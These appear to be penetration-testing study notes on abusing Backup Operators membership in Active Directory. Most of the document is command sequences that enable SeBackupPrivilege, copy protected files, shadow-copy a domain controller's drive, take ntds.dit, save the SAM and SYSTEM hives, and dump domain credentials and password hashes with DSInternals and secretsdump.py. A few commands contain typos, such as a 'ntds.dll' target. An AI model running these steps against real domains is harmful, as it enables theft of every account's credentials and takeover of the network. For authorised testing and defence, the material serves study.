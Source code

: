 Privileged Accounts & Groups in AD:
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory

- Backup Operators group
- Event Log Readers group
- DnsAdmins group
- Hyper-V Administrators group
- Print Operators group
- Server Operators group

### Backup Operators Group

`whoami /groups` shows that our user is a member of Backup Operators.
Being part of this group grants it's members `SeBackup` and `SeRestore` privileges.

`SeBackupPrivilege` allows us to traverse any folder and list the folder contents.
This let's us copy a file from the folder, even if there's no ACE for us in the folder's ACL.

We need to programmatically copy the data, making sure to specify `FILE_FLAG_BACKUP_SEMANTICS`.
```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

whoami /priv => SeBackupPrivilege (Disabled)

Set-SeBackupPrivilege
Get-SeBackupPrivilege

dir C:\Confidential\
Copy-FileSeBackupPrivilege "C;\Confidential\2022 Contract.txt" .\A.txt
```

### Attacking a Domain Controller - Copying NTDS.dit

With the backup permission, we can log into a DC locally. We can create a shadow copy:
```
diskshadow.exe

set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup

add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit

dir E:

Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Backup up SAM and SYSTEM
```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

### Extracting Credentials from NTDS.dit
```
Import-module .\DSInternals.psd1

$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=amdinistrator,CN=users,DC=domin,DC=local' \
	-DBPath .\ntds.dit -BootKey $key
```

### Extracting Hashes with secretsdump.py
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Robocopying

```
robocopy /B E:\Windows\NTDS .\ntds ntds.dll
```